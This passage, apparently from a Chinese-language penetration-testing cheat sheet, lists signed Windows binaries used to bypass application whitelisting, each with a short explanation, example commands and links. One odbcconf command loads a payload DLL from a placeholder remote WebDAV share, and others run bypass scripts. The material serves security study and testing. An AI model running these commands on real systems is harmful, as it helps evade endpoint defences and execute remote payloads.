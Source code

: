 一个选择并对文件或文件集执行命令的工具。 此命令可用于批处理。

```powershell
forfiles /p c:\windows\system32 /m notepad.exe /c calc.exe
```

#### Odbcconf

这个和regsvr32很类似。它可以执行一个显示特定函数的DLL。需要注意的是他不一定需要.dll的后缀名文件。

```powershell
odbcconf /s /a {regsvr \\webdavserver\folder\payload_dll.txt}
odbcconf -f file.rsp
```

#### MSDT

Microsofts Signed Binary Involved

```powershell
Open .diagcab package
```

Links:

- https://cybersyndicates.com/2015/10/a-no-bull-guide-to-malicious-windows-trouble-shooting-packs-and-application-whitelist-bypass/

#### Bginfo

BgInfo是一个Microsoft实用程序，它可以在桌面背景中直接显示计算机的系统信息。

```powershell
bginfo.exe bginfo.bgi /popup /nolicprompt
```

Links：

- https://pentestlab.blog/2017/06/05/applocker-bypass-bginfo/
- https://github.com/3gstudent/bgi-creater

#### DNX

 .NET Execution Environment(*DNX*) 是一个SDK 和运行时环境,它包含所有的你需要创建和运行.net应用程序的组件。可以执行C#代码

```powershell
dnx.exe consoleapp
```

Links:

https://enigma0x3.net/2016/11/17/bypassing-application-whitelisting-by-using-dnx-exe/

#### CSI/RCSI

和dnx一样csi和rcsi都可以执行C#代码，但csi是交互式的而rcsi不是。

```powershell
rcs.exe bypass.csx
rcsi.exe bypass.csx
```
